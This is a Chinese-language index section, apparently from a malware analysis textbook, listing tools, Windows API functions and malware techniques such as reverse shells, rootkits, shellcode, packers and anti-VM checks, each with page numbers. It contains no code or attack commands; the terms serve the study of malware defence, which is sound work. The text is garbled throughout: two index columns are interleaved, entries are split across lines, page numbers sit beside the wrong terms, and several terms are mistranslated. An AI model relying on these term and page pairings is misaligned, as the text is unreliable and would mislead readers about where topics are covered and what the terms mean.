大规模恶意软件，4

Visual Studio，16

MD5（消息摘要算法 5），10

调用约定，121

媒体文件，其中存储的 shellcode，423

宽字符字符串，11

memcmp 函数，497

微软开发者网络

memcpy 函数，596

（MSDN），414

内存

微软签名二进制文件，验证，48

全局变量的地址，111

MIME（多用途互联网

对象的分配，437

（MIME）标准，

检查 VMware 工件，373

Base64 和，277

将 PE 部分复制到，593–594

MmGetSystemRoutineAddress 函数，

224，459

目录

**751**

[www.it-ebooks.info](http://www.it-ebooks.info/)

指令中的助记符，69

获取模块，602

Module32First 函数，459

对于互斥锁，151

Module32Next 函数，459

名称窗口，在 IDA Pro 中，91

模块

命名空间，通过文件可访问，

获取名称，602

138–139

在 WinDbg 中列出，212

NAT（网络地址转换），

模运算，75，112，113

311

mov 指令，73，76，79，338，500

对于 VMware，34

位置依赖性，409

原生 API，在 Windows 中，159–161

movsb 指令，82

原生应用程序，161

movsd 指令，528

Navigate 函数，155，313

movs *x*指令，81

nc. *参见* Netcat (nc)

MS-DOS 存根程序，22

Nebbett，Gary，*Windows NT/2000*

MSDN (Microsoft Developer

*原生 API 参考*，160

（网络），414

嵌套 if 语句，113，114–116

MSDN 在线，19

net start cisvc 命令，582

msg 关键字，在 Snort 中，304

net start 命令，43，152，581

*msgina.dll*，和 GINA，235

Netcat (nc)，52–53，470，483，634

*msvcrt.dll*，从中导入，480

检查结果，485

mul 指令，75

监听时的输出

多字节编码算法，276

端口 80，504

多用途互联网邮件扩展-

反弹 shell，232–233

sions（MIME）标准，

NetScheduleJobAdd 函数，459，547

Base64 和，277

NetShareEnum 函数，459

Windows 的多线程版本

网络适配器，桥接的，34

反弹 shell，233

网络地址转换

变异体，151

（NAT），311

互斥锁，58，482，513

对于 VMware，34

创建，483，515

网络对策，297

与进程间协调，

网络过滤器，在 procmon 中，46

151–152

网络接口卡 (NICs)，

恶意软件的创建，585

虚拟的，371

恶意软件的使用，517

网络签名，2，297–322

MZ 标头，在 PE 可执行文件中，594

分析，631–632

攻击者的视角和，321–322

**N**

创建，490

为 Snort 创建，317

命名常量，102–103

创建 XOR 强制，273

命名管道，监视

Emerging Threats 列表，304

在其上的输入，634

生成，643

名称

实验室，323–324

函数的约定，17

解决方案，626–645

哈希导出，用于符号

用于恶意软件感染检测，2

分辨率，417–418

对于 User-Agent 字段，637

用于实验室文件，27

网络 API，143–145

位置的，更改

网络

IDA Pro，100

分析，538–539

用于恶意 DLL，257

捕获流量，580

恶意软件的，字符串比较，666

欺骗，51–53

C++ 中的名称修饰，

查找代码，313

**752**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

仅主机，32–33

NULL 终止符，11

功能指示，572

操作码字节数量选项，335

了解内容来源，314

NXDOMAIN 选项，52

服务器和客户端，144–145

虚拟的，32

**O**

new 操作符，435，437，712

在 WinDbg 中的 !object 命令，552

nibble，278

面向对象编程，

NICs（网络接口卡），

427–432

虚拟的，371

覆载和名称修饰，

无药可救技术，375。*另见* sldt

430–431

指令（无药可救）

this 指针，428–430

NopBytes 函数，339

对象，创建和销毁

非叶函数，446

在 C++ 中，437

非特权模式，177

OEP。*见*原始入口点（OEP）

非虚拟函数，与虚拟函数相比，

OfficeMalScanner，470

432–436

IDA Pro 中的偏移链接，93

NOP 指令，在 x86 中

OleInitialize 函数，154，460，518

架构，76

OllyDbg，168，179–201，364，470

NOP 序列，337

分析，691

NOP 滑梯，shellcode 和，422–423

辅助功能，197

使用它 NOP-ing 指令

断点，188–191

IDA Pro，340

选择调试参数，532

Norman SandBox，40

从中调试窗口，173

Norton Ghost，30

异常的默认设置，362

noscript 标签，恶意软件命令

汇编视图，533

从，638

在其中检查钩子，579–580

NSPack，388

异常处理，194–195

NT 命名空间，138

执行代码，186–187

NtContinue 函数，161，386

查找函数地址

NtCreateFile 函数，215，224

与，410

*ntdll.dll*，17，159，352，414

强制代码反汇编，689

NTGlobalFlag 标志，355，659–660

接口，181–183

ntohl 函数，191

作为即时调试器，411，696

*ntoskrnl.exe*，159

实验室，202–203

恶意驱动程序和，207

解决方案，530–548

NtQueryDirectoryFile 函数，459，559

加载 DLLs，191–192，401

作为钩子函数，556–558

加载恶意软件，180–181，656

NtQueryInformationFile 函数，160

在其中加载打包的可执行文件，389

NtQueryInformationKey 函数，160

检查 DLL 加载的内存映射

NtQueryInformationProcess 函数，

位置，546

352，460

内存映射窗口，183–185

NtQueryInformationThread 函数，160

使用它打开恶意软件，538

NtQuerySystemInformation 函数，160

OutputDebugString 格式字符串

NtReadFile 函数，160

漏洞，365

NtSetInformationProcess 函数，460

打包程序和，387

NtWriteFile 函数，160，215

补丁，195–196

在中避免 NULL 字节，

在 TLS 回调之前暂停，361

脚本代码，421

插件，197–200，354

NULL 保留单字节 XOR

编码，273–274

索引

**753**

[www.it-ebooks.info](http://www.it-ebooks.info/)

OllyDbg，*继续*

将执行权转移到，386

提前终止，

解包 stub 和，384

程序在其中，662

孤儿进程，490–491

重定位，184–185

OSR 驱动程序加载器，470–471

运行跟踪选项，395

OSs（操作系统），备份

使用它进行屏幕捕获解码，616

图像，30

可脚本调试，200–201

Outlook Express，579–580

脚本代码分析，196–197

从输出函数跟踪，286

中的 strncmp 函数，663

OutputDebugString 函数，353，

跟踪，192–194

460，664

查看线程和堆栈，

过度分析，危险，308

185–186

起重，430–431

中的漏洞，363–365

WinUpack 和，400

**P**

OllyDump，198，389–390

压缩 DLLs，401

导出未压缩程序，694

压缩可执行文件

通过段跳转（跟踪

检测，23

Into)，686

为其计算熵，387–388

通过段跳转（跟踪

识别，387–388

Over)，685，687

在 OllyDbg 中加载，389

强制代码反汇编，686

修复导入表，390

指令集，在 x86 架构中，67，70

压缩文件

开源嗅探器，53

指示，480

OpenMutex 函数，152，460，522

字符串和，483

OpenProcess 函数，460

压缩恶意软件，13–14

OpenProcessToken 函数，247，730

使用 PEiD 检测，14

OpenSCManager 函数，153，460，514，

打包器，383–402

515，549，550，554

解剖，384–387

OpenService 函数，549，550

实验室，403

OpenSSL，281

解决方案，684–695

操作数

解决导入，385

在 IDA Pro 中的格式化，100

尾跳，386

在 x86 架构中，69，70

常见问题的技巧和窍门，

操作系统（OSs），备份

397–400

图像，30

解包示例，386–387

操作过滤，在 procmon 中，45

Wireshark 中的数据包列表，53

运营复制，308

使用 Wireshark 进行数据包嗅探，53–55

操作安全（OPSEC），299

打包算法，程序在

或指令，76

反向，389

OR 逻辑运算符，在 x86

填充字符，Base64

架构，75

字符串和，279

序号，函数的可执行导入，

Parallels，31

通过它进行的操作，16–17，43

C++中的父类，432

原始入口点（OEP）

从中派生的子类函数，436

代码，399

父子关系，

在 DLLs 中，401

在类中，432

寻找，391–395

解析例程

使用自动化工具，391–392

分析，318–320

手动，392–395

IDA Pro 的图，318–319

指示，694

Pass-the-hash 攻击，236

**754**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

密码检查函数，533

Phatbot，VMware 检测，375–376

检查是否禁用，534

钓鱼，定向，299

密码，661

PIC（位置无关代码），

获取正确的，665

408–409

嗅探，53

管道符号（|），在 Snort 中，304

PatchByte 函数，337，339

插件

PatchGuard，227

用于扩展 IDA Pro，103–106

在 OllyDbg 中的补丁，195–196

在 OllyDbg 中，197–200，354

Snort 中的有效载荷规则选项，303

PEiD，可执行文件的运行，14

PCRE (Perl 兼容正则

第三方，用于互联网

表达式) 表示法，在

Explorer，157

Snort，305，316

指针，句柄与，137

pcre Snort 规则关键字，305

Poison Ivy，189，234

.pdata 部分，在 PE 文件中，22

跟踪，193–194

PDF Dissector，471

使用 VirtualAlloc 函数，

. *pdf* 文档，704–712

189–190

使用 Process Explorer 分析，50

轮询，239

为其创建的对象，716

多态性，434

PDF 工具，471

pop 指令，77，79

PE Explorer，26，471

调用后，409–411

解包插件，388

和尾部跳转，394

PE 文件格式。*参见* 可移植可执行-

弹出式广告，560–561

能力 (PE) 文件格式

popa 指令，79，244

PEB (处理环境块)

popad 指令，79

结构，352，591–592

端口 80，后门和，232

已记录的，354

可移植可执行 (PE) 文件格式，

PEBrowse Professional，26

14–15，396

PECompact，397–398

将部分复制到内存中，

PeekNamedPipe 函数，460，634

593–594

PEiD，471，478，479–480

检查文件结构，486

检测打包程序，14

OllyDbg 中的头部漏洞，

KANAL 输出，610

363–365

外围设备，连接和

标题和部分，21–26

断开连接，34–35

摘要信息，26

Perl 兼容正则表达式

IDA Pro 支持，87

(PCRE) 表示法，在 Snort，

中的指示，729

305，316

压缩可执行文件格式，

持久性，241–245，572

385

AppInit_DLLs，575

解析导出数据，415–417

DLL 加载顺序劫持，244–245

PEview 用于检查，22–24

注册表中的，139

重定位和，184

木马化系统二进制文件，243–244

Resource Hacker 工具用于查看，

Windows 注册表，241–243

25–26

Petite，398

资源部分，254，567

PEview，471，478

部分标题，和 OllyDbg

使用它检查 PE 文件，22–24

崩溃，364

使用它查找基本地址，545

.tls 部分，360，662

原版和木马化版本，

端口，恶意软件的使用，52

*cisvc.exe*，584–585

位置无关代码 (PIC)，

PhantOm 插件，354，658，659，665

408–409

索引

**755**

[www.it-ebooks.info](http://www.it-ebooks.info/)

POST 方法，309

打开和

printf 函数，120

manipulate, 20

为 32 位编译的调用

隐藏的，566

处理器，445

与进程间协调

为 64 位编译的调用

互斥锁，151–152

处理器，446

属性窗口，48

IDA Pro 识别问题，502

恢复挂起的，595

特权提升，245–247

启动和替换，596

SeDebugPrivilege，246–247

PEB 结构中的 ProcessHeap 标志，355

特权模式，177

procmon。*参见* 进程监视器

ProcDump，400

(procmon)

procmon 中的进程活动过滤器，46

程序。*参见* 可执行文件

进程上下文，158

前言

处理环境块 (PEB)

64 位代码，446–447

结构，352，591–592

在函数中，77

已记录的，354

Process 的属性窗口，

Process Explorer，58，472，483

Explorer，48

比较字符串，49

协议，攻击者模拟

Dependency Walker，49

现有的，309–310

用于查找 DLL 注入，589

*psapi.dll*，586，600

验证选项，48–49

push 指令，77，79，244，329，689

使用它查看进程，47–50

与 mov 相比，120

Process Hacker，472

用于返回指令

Process Monitor（procmon），43–46，

尾跳，399

472，483

用于在反汇编中启动函数，394

启动日志选项，46

Pwdump，236

显示，44

PyCommand Python 脚本，200–201

过滤对话框，484

PyCrypto 密码学库，

过滤输入，44–46

290，625

工具栏上的过滤器，46

潜在的陷阱，626

查看结果，58

Python，472

切换事件捕获

IDAPython，105–106

and off, 749

解码 Base64 的程序，

procmon 中的进程名称过滤器，45

编码字符串，289

进程属性窗口，

PyCommand 脚本，200–201

字符串标签，49

转换数据为字符串的脚本，

进程替换，48–49，257–259

500–501

Process32First 函数，255，263，460

Process32Next 函数，255，263，460

**Q**

进程

查询 I/O 通信端口，

创建，147–149，590

375–377

从内存中转储，390，400

QueryPerformanceCounter 函数，

动态解析枚举，

358–359，460，667–668

动态导入，600–601

QueueUserAPC 函数，263，460

暂停的新 EBX 寄存器，

创建，591

**R**

枚举，601

用于跟踪运行中的恶意软件，

射频识别（RFID）

147–149

令牌，235

RaiseException 函数，157，344

**756**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

Random 函数，313，314

使用*.reg*文件进行脚本编写，142–143

随机数生成器种子，484

使用 Regshot 的快照，50–51

RAT（远程管理工具），

VMware 中的证据，371

233–234

注册表编辑器（Regedit），140–141

原始数据，转换为 Base64，

procmon 中的注册表过滤器，46

277–278

注册表键，20

RC4 算法，283

恶意软件和，42

RCPT 命令（SMTP），572

调试器的引用，356

.rdata 部分，在 PE 文件中，21

\Registry\Machine 字符串，549

rdtsc 函数，669

RegMon 工具，43

rdtsc 指令，用于计时

RegOpenKey 函数，461

检查，358

RegOpenKeyEx 函数，141，142，

读取断点，用于查找

448，508

尾跳，394

RegSetValueEx 函数，141，508

ReadFile 函数，137，219

Regshot，50–51，56，472，487–488

传递给它的句柄的来源，623

正则表达式，用于识别

ReadProcessMemory 函数，460，590

恶意软件模式，631

重定位，88

相对地址，与绝对地址

在 OllyDbg 中，184–185

地址，在 OllyDbg 中，

接收数据和代码分析，312

184–185

恢复隐藏文件，559–560

相对虚拟地址（RVAs），用于

递归函数，527

PE 文件，416

recv 函数，143，144，313，461

ReleaseMutex 函数，151

Red Pill 反虚拟机技术，374–375。

.reloc 部分，在 PE 文件中，22

*另见* sidt 指令

远程管理工具（RAT），

(Red Pill)

233–234

引用 Snort 规则关键字，305

远程钩子，260

RegCreateKeyEx 函数，448

远程机器，接收程序的

RegDeleteKeyEx 函数，448

从它接收命令，522

Regedit（注册表编辑器），140–141

远程进程，VirtualAllocEx

RegGetValue 函数，141

函数与，255

区域互联网注册机构

远程 shell 会话函数，497

(RIRs)，301

远程套接字，程序

寄存器操作数，69

连接到，727

RegisterClassEx 函数，20

rep 指令，在 x86 架构中，

RegisterHotKey 函数，20，461

81–83

寄存器，68

REP MOVSx 指令，536

移位，75

复制，操作，308

在 x64 架构中，443

资源提取导入

在 x86 架构中，71–73

函数，567

寄存器窗口，在 OllyDbg 中，182

Resource Hacker，25–26，472，482，

注册表，用于互联网地址，301

554，596–597

注册表（Windows），139–143

资源部分

分析代码，141–142

存储在可执行文件中，555

常见函数，141

从中加载数据，481

定义服务，242

资源

字符串搜索功能，679

用于操作的导入，600

修改指示，508

使用单字节 XOR 混淆

用于持久性，241–243

编码，609

根键，140

索引

**757**

[www.it-ebooks.info](http://www.it-ebooks.info/)

资源管理，

*rtutils.dll*，比较被木马化的

进程，147

清洁版本，243

ResumeThread 函数，259，461

规则选项，在 Snort 中，303

ret 指令，77，386，409

运行子密钥，用于运行程序

retn 指令，342–343，693

自动，140

返回指令，用于尾部跳转，压入

运行跟踪，在 OllyDbg 中，193

指令，399

*rundll32.exe*，42–43，488

返回指针，滥用，342–343

进程过滤器，572

rev 关键字，在 Snort 中，304

用于运行 DLL 恶意软件，42–43

反工程，3

运行进程，附加

网络协议，53

从 OllyDbg 到，181

在 x86 反汇编中，67–68

运行服务，列出，152

反工程环境，466

运行时链接，15

反向 IP 查询，301

RVAs（相对虚拟地址），用于

反弹 shell，232–233

PE 文件，416

分析，544

创建，703

**S**

可逆密码，271

安全环境，29。*另见*虚拟

RFID（射频识别）

机器

令牌，235

SafeSEH，345

右旋转（ror），76

SAM（安全账户管理器），

Rijndael 算法，618

本地用户密码散列

RIP 相对寻址，443

账户，236

RIRs（区域互联网注册机构），

SamIConnect 函数，237，461

301

SamIGetPrivateData 函数，237，461

Ritchie，Dennis，*C 程序设计语言*

SamQueryInformationUse 函数，461

*语言*，110

SamrQueryInformationUser 函数，237

Robin，John，373

*samsrv.dll* 库，获取

RobTex，302

处理句柄，237

非法字节，337

沙盒，40–42，473

ROL 编码算法，276

Sandboxie，473

rol 指令，76

sc 命令，555

罗马帝国，凯撒密码与，270

恐吓软件，4

根键，在注册表中，139

scasb 指令，82

根工具，4，221–225

scas *x* 指令，81

寻找，555–556

ScoopyNG，379

与中断的关系，225

屏幕捕获，功能用于，615

用户模式根工具，247–250

ScreenEA 函数，105

ROR 编码算法，276

可脚本调试，在 OllyDbg 中，

ror 指令，76

200–201

ROT 编码算法，276

脚本，IDC，104–105

旋转指令，76

搜索

PE 文件中的 .rsrc 部分，22，25–26

加载 DLL 的默认顺序

RtlCompareMemory 函数，557–558

Windows XP，245

RtlCreateRegistryKey 函数，461，

在 IDA Pro 中，94–95

549，553

符号，212–213

RtlInitUnicodeString 函数，219，559

跳转段，391

RtlWriteRegistryValue 函数，461，

安全哈希算法 1（SHA-1），10

549，553

**758**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

安全账户管理器（SAM），

共享文件夹，36

本地用户的密码散列

在 VMware 中，380

账户，236

shell，连接管道到输出，624

安全描述符，246

*Shell32.dll*，20

SeDebugPrivilege 提权

shellcode

流程，603

64 位版本，442

段寄存器，71

带字母的解码器

SEH（结构化异常

编码，697

处理），157，665

查找，423–424

链接，345

哈希数组，700–701

滥用，344–346

定位 PDF 的打开句柄，708

Seitz，Justin，《灰帽 Python》，201

有效载荷，698

自解码，288–289

写入 *cisvc.exe*，583–584

自删除脚本代码，674

shellcode 分析，407–424

发送函数，143，144，313，461

动态的，706–707

安装内联钩子，574

编码，421–422

发送数据和代码分析，312

识别执行位置，

网络服务器端，144–145

409–413

ServiceMain 函数，673

实验室，425–426

服务

解决方案，696–712

在注册表中定义，242

加载代码，408

创建函数，677

手动符号解析，413–418

指示创建的函数，549

在内存中查找 *kernel32.dll*，

OpenService 的句柄

413–415

函数，550

解析 PE 导出数据，415–417

恶意软件创建，514

使用散列导出名称，

作为恶意软件安装，487

417–418

创建程序，561

NOP 滑梯，422–423

sc 命令用于信息

在 OllyDbg 中，196–197

关于，555

位置无关代码（PIC），

在 Windows 中，152–154

408–409

SetColor 函数，105

*shellcode_launcher.exe*，408，411，696

setdll 工具，262

ShellExecute 函数，462，636

SetFilePointer 函数，709

移动寄存器，75

SetFileTime 函数，461

shl 指令，75，76

SetThreadContext 函数，259，461，

ShowWindow 函数，20

590，595

shr 指令，75

SetWaitableTimer 函数，516

sid 关键字，在 Snort 中，304

SetWindowsHookEx 函数，20，239，

sidt 指令（红药丸），375，

260，261，462，597

670，671

SetWindowText 函数，20

虚拟机和，374

SF（标志）标志，72

基于签名的 IDS，302

*sfc_os.dll*，604

签名。*参见* 网络签名

SfcTerminateWatcherThread 函数，

简单加密，270–280

462，604

Base64，277–280

sgdt 指令

凯撒密码，270

虚拟机和，374

其他编码方案，276–277

和 VMware 检测，375

XOR 加密，271–276

SHA-1（安全哈希算法 1），10

x86 中的简单指令

共享文件，138

架构，73–76

索引

**759**

[www.it-ebooks.info](http://www.it-ebooks.info/)

单字节 XOR 编码，271

钓鱼攻击，299

单步执行

Windows API 中的特殊文件，138–139

在调试器中，169–170，176

sprintf 函数，注释代码

和 icebp 指令，363

参数，628–629

在 OllyDbg 中，187

间谍软件，20

水坑，297

SSDT（系统服务描述符

原始数据大小，23–24

表)

SizeOfRawData 字段，在 PE 头部，365

检查，222

SizeofResource 函数，254，596，609

钩子，221–222

sldt 指令（No Pill），670，672

栈，69

和 VMware 检测，375

局部变量的地址，111

Sleep 函数，239，263，329，479

ExceptionHandler 代码和，345

在循环中，629

为函数修复，506–507

参数，499

识别推入的参数

沙盒和，41

到，502–503

Sleuth Kit（TSK），473

上创建的对象，437

智能卡，235

在 OllyDbg 中查看，185–186

快照

在 x64 架构中，差异，687

与 Regshot 比较，50–51，58

使用，443–447

注册表，487–488

在 x86 架构中，77–80

虚拟机的，35–36

函数调用，77–78

Snort，473

布局，78–80

分析解析例程，

栈溢出，158

318–320

栈指针，负数，348

创建签名，317

栈变量，自动

中的误报，306

命名，100

使用它进行入侵检测，303–304

栈窗口，在 OllyDbg 中，182–183

Perl 兼容正则表达式

栈形成的字符串，解码，

sion（PCRE）表示法，305

540–541

规则的签名，632

栈帧分析，阻止，

针对多个元素，

347–349

320–321

标准回溯，在 OllyDbg 中，

sockaddr_in 结构，543，702

192–193

套接字函数，143，144，313

StartAddress 函数，516

符号常量，500

START_PENDING，作为服务状态，517

套接字

StartService 函数，153，549，

与伯克利兼容，143–144

550，554

创建代码，701–702

StartServiceCtrlDispatcher 函数，

连接到远程的程序，727

462，514

SoftICE，168

STARTUPINFO 结构，148，233

软件，通过修改执行

操作，544

调试器，177

静态分析，9–26，65

软件断点，357

高级，3

与硬件，687

基本概念，2

在 OllyDbg 中，188–189

与动态分析结合，

软件数据执行预防

307–321

软件（DEP），345

Dependency Walker，468

源级调试器，与

示例，*PotentialKeylogger.exe*，

汇编级，168

18–21

发送垃圾邮件的恶意软件，4

**760**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

labs，27–28

strncmp 函数，256，523，524，715

解决方案，477–481

用于模块名称比较，666

技术，482–485

在 OllyDbg 中，663

静态 IP 地址，632

strncpy 函数，611

静态库，145

strrchr 函数，541，725

静态链接，15

strstr 函数，640

静态解包程序，

结构化异常处理

自动化，389

（SEH），157，665

内存中的静态值，69

链，345

状态标志，71

滥用，344–346

STATUS_BREAKPOINT 异常，362

结构

stdcall 调用约定，120

在 IDA Pro 中应用，547–548

步进，在 OllyDbg 中，187

AT_INFO，547–548

在调试器中步入，170–171

EPROCESS

在调试器中跳过，188–189

更改，566

170–171，187

在 WinDbg 中检查，565

Storm 蠕虫，375

识别，128–130

stos *x* 指令，81

在初始化顺序中链接列表，414

str 指令，670，671–672

LIST_ENTRY，414，565

用于检测 VMware，377–378

手动检查，353–356

和虚拟机检测，377

Microsoft 符号和查看

strcat 函数，使用风险，421

关于其的信息，213–214

strcpy 函数，使用风险，421

在其上覆盖数据，214

stricmp 函数，527

sockaddr_in，543，702

字符串指令，81

STARTUPINFO，148，233，594

字符串

SYSTEMTIME，516

在 Process Explorer 中比较，49

时间相关的，操作，516

恶意软件名称的比较，666

UNICODE_STRING，对于 Windows

连接函数，535

内核，219

解码栈形成的，540–541

结构窗口，在 IDA Pro 中，92

解码 XOR 编码，542–543

SUB 编码算法，276

寻找，11–13

子链接，在 IDA Pro 中，93

使用找到反 VM 技术，

注册表中的子键，139

679–683

减法，指令，74

用于操作的函数，715

挂起的进程，恢复，595

在恶意软件中，487

挂起状态，创建

混淆比较，640–641

中的进程，258

压缩文件和，483

SuspendThread 函数，462

用于转换数据的 Python 脚本

SvcHost DLLs，242–243

到，500–501

*svchost.exe，* 257–258

在密码学中识别

从中启动恶意软件，488

算法，281–282

作为孤儿进程运行，

发送到调试器，以

490–491

显示，353

switch 语句，121–126，722–723

字符串列表，识别键盘记录器

表示的图表，509–510

在，240–241

if 风格，122–123，124

字符串工具，473

其跳转表，123–126，641–642

搜索可执行文件，11–12

符号常量，用于套接字

字符串窗口，在 IDA Pro 中，91

函数，500

索引

**761**

[www.it-ebooks.info](http://www.it-ebooks.info/)

符号链接，创建，562

线程环境块（TEB），344

符号，212–215

线程标识符（TID），575–576

配置，215

线程信息块（TIB），344

搜索，212–213

线程局部存储（TLS）回调，

和查看结构信息，

359–361

213–214

Thread32First 函数，462

SYSCALL 指令，158，221

Thread32Next 函数，462

SYSENTER 指令，158

线程

Sysinternals，Autoruns 程序，241

访问其上下文的程序，591

SYSTEM 账户，152

定位，261

系统二进制文件，用于木马化，

在 OllyDbg 中查看，185–186

持久性，243–244

在 Windows 中，149–151

系统调用，基于过滤，45

ThreatExpert，40

系统函数，462

TIB（线程信息块），344

系统内存。*见*内存

TID（线程标识符），575–576

系统残留，检查，356

时间日期戳描述，在 PE 中

系统服务描述符表

文件，22–23

（SSDT）

时间相关结构，

检查，222

操作，516

钩子，221–222

时间戳，535

SystemFunction025 函数，237

时间检查，357–359

SystemFunction027 函数，237

GetTickCount 函数，668–669

SYSTEMTIME 结构，516

与 QueryPerformanceCounter 一起使用，

SystemTimeToFileTime 函数，516

667–668

rdtsc 函数，669

**T**

TLS（线程局部存储）回调，

359–361

尾跳，386

Toolhelp32ReadProcessMemory

作为代码消除，693

函数，462

检查代码，687–688

Tor，300，474

并找到 OEP，392

在 OllyDbg 中的跟踪，192–194

用于打包程序的程序，

恶意软件活动流量日志，312

UPack，399

转移文件，从虚拟

定向恶意软件，4

机器，36

定向钓鱼，299

陷阱标志，176–177

TCP 握手，捕获，59

木马化的系统二进制文件，用于

TCPView，473

持久性，243–244

TEB（线程环境块），344

特鲁门，474

终止进程函数，IAT

TSK（The Sleuth Kit），473

挂钩，248

类型库，在手动加载中

测试指令，80

IDA Pro，102

文本模式，在 IDA Pro 中，90–91

类型，在 Windows API 中，136

.text 部分，在 PE 文件中，21，22

TF（陷阱）标志，72

**U**

The Sleuth Kit (TSK)，473

Themida，400

u（反汇编）命令，

*Thinking in C++*（Eckel），428

在 WinDbg 中，212

此指针，428–430，712–713，719

Ultimate Packer for eXecutables。*另见*

在反汇编中，430

UPX（终极打包器用于

线程上下文，149

eXecutables）

**762**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

无条件跳转，80，517

*user32.dll*，17，20，545

撤销功能，快照作为，35

User-Agent，312，317

unescape 函数（JavaScript），423，

动态生成，511

705–706

用于恶意软件，303，310，628

未处理的异常，344

签名字符串，643

UnhookWindowsHookEx 函数，261

用户模式 APC，263

Unicode 字符串，11–12

用户模式 rootkits，247–250

UNICODE_STRING 结构，用于 Windows

IAT 挂钩，248

内核，219

内联挂钩，248–250

统一资源定位符（URLs），

打开以下载

**V**

恶意软件，651–652，654

注册表中的值条目，140

卸载函数，在 WinDbg 中的分析

变量，全局与局部，110–112

IDA Pro，553

VERA（可视化可执行文件）

UnMapViewOfSection 函数，592

反汇编和分析）

解包，14，685–686

475–476

不使用分析恶意软件，

受害者信息，恶意软件

400–401

收集，722

示例，386–387

使用 Process

手动，389–397

探索者，47–50

解包 stub，383，384，389，692

虚拟地址，自动

的大小，399

命名，100

UPack，388，398

虚拟函数表，434–435，715

UPX（终极打包器用于

识别，435–436

eXecutables），14，388，

虚拟函数，与非虚拟，

389，475

432–436

使用修改版打包，

虚拟机，29–38。*另见*反-

684–685

虚拟机（反 VM）

小技巧和技巧，397

技术

UPX 打包的恶意软件，479

从 procmon 崩溃，44

URLDownloadToCacheFile 函数，232，

断开网络，32

606，626，628，642

转义，380

URLDownloadToFile 函数，313，

隐藏精确位置，300

462，482

在其上的恶意软件检测，42

URLs（统一资源定位符），

恶意软件检测努力，369，

打开以下载

670–672

恶意软件，651–652，654

启动调试器启用选项，

USB 闪存驱动器，206

操作系统版本，208

用户模式

设置，580

从应用程序调用，206–207

结构，30–31

与调试器相比，内核模式，

拍摄快照，35–36

168–169

从中传输文件，36

在 Windows 中，158–159

使用多个，33

用户空间

虚拟机团队，33

从中注入 APC，263–264

虚拟网络，32，57

键盘记录器，239–240

虚拟大小，23–24

查看代码，215–216

VirtualAlloc 函数，596

Poison Ivy 的使用，189–190

索引

**763**

[www.it-ebooks.info](http://www.it-ebooks.info/)

VirtualAllocEx 函数，255，256，423，WaitForSingleObject 函数，151

462，586，588，730

WaitForSingleObjectEx 函数，263

和直接注入，257

在 OllyDbg 中的监视窗口，197

和进程注入，254

网络应用程序，Burp Suite 用于

VirtualProtectEx 函数，462

测试，467

虚拟大小字段，在 PE 头部，365

网络浏览器，恶意软件鉴定

病毒，4

默认的，699–703

语言设置和，177

WEP（有线等效隐私），34

VirusTotal，10，475，478，479

当循环，118

可视化可执行文件以进行逆向工程

WH_KEYBOARD 过程，260

和分析（VERA），475–476

WH_KEYBOARD_LL 过程，260

VMcat, 380

为域名进行的 whois 请求，301–302

VMchat，380

whosthere-alt，238

VMdrag-n-hack，380

宽字符字符串，11

VMdrag-n-sploit，380

WideCharToMultiByte 函数，462

VMftp，380

Wi-Fi 保护接入（WPA），34

VMware，30

Win32 设备命名空间，138

文件夹，370–373

WIN32_SHARE_PROCESS 类型，153

配置，31–33

WinDbg，168，205–227，475

配置以创建虚拟控制台

算术运算符，211

与宿主操作系统的连接，208–209

断点，211–212

磁盘空间使用，31

连接到虚拟机

内核调试设置，207–210

与，209–210

影像捕获功能，37

EPROCESS 结构检查

网络地址转换

与，565

(NAT)模式，34

在其中查找设备驱动程序

记录/回放，37，170

内存，563

用于恶意软件分析的潜在风险，

与 IDA Pro 相比，553

36–37

用于内核调试器，552

设置以避免检测，

实验室，228

379–380

解决方案，548–566

快照管理器，35

加载驱动程序，226

VMware Player，30

模块列表，212

VMware Tools

输出，726

安装，31

从内存中读取，210–211

停止服务，371

根套件，221–225

VMware Workstation，30–31，475

在其中查看 SSDT，222

*VMwareService.exe*，370

系统断点和，361

*VMwareTray.exe*，370

查看驱动程序，551–553

*VMwareUser.exe*，370

在 IDA Pro 中的窗口模式，89–90

*.vmx*文件，379

Windows

Volatility 框架，475

蓝屏，158

冯·诺依曼架构，68

组件对象模型（COM），

vtables，434–435

154–157

识别，435–436

设备驱动程序，206

可执行文件，常见部分，22

**W**

跟踪运行中的恶意软件，

*W*，在 Windows 函数的末尾

145–158

名称，17

动态链接库（DLLs），

WaitForMultipleObjectsEx 函数，263

145–147

**764**

索引

[www.it-ebooks.info](http://www.it-ebooks.info/)

异常，157–158

Windows Vista 的内核问题，

进程间协调，

226–227

互斥锁，151–152

Windows XP

进程，147–149

加载的默认搜索顺序

服务，152–154

DLLs，245

线程，149–151

禁用防火墙，549

导入链接的函数

WinExec 函数，462，482

函数，15

WinGraph32 应用程序，98

内核与用户模式，158–159

WinHex，468，596–597，609

原生 API，159–161

WinINet (Windows Internet) API，

反弹 shell，233

145，313，504，639–640

导出进程的工具，400

优缺点，633

作为虚拟操作系统，31

*wininet.dll*，17，501

Windows 7，内核问题，226–227

从中导入，480

Windows 32 位在 Windows 64 位上

Winlogon，打开句柄，603

(WOW64)子系统，447

Winlogon Notify，242

Windows API，136–139

WinMain 函数，分析，640

调用函数的代码，526

WinMD5 计算器，10，11

使用它进行调试器检测，352–353

WinObj 对象管理器，138

文件系统函数，137–138

Winsock (Windows Sockets) API，313

句柄，137

Winsock 库，143

IDA Pro 命名目录

WinUpack，398–400，691–695

常量，102

有线等效隐私（WEP），34

网络 API，143–145

Wireshark，57，475，483

特殊文件，138–139

DNS 和 HTTP 示例，54

Windows 调试器检测，

跟踪 TCP 流窗口，54

352–356

使用它进行数据包嗅探，53–55

手动检查结构，

检查捕获，59

353–356

精彩的蠕虫，138

使用 Windows API，352–353

*Wlx*，以 Wlx 开头的函数名

Windows 文件保护，604，605–606

与，235

Windows 函数，453–463

WlxLoggedOnSAS 函数，463

Ex 后缀，17

Word 文档，用

Windows Internet (WinINet) API，

Process Explorer，50

145，313，504，639–640

WORD 类型，在 Windows API 中，136

优缺点，633

蠕虫，4

Windows 恶意软件，135–161

WOW64（Windows 32 位在 Windows

实验室，162–163

64 位子系统，447

解决方案，513–529

Wow64DisableWow64FsRedirection

*Windows NT/2000 原生 API 参考*

函数，448，463

(Nebbett)，160

WPA（Wi-Fi 保护接入），34

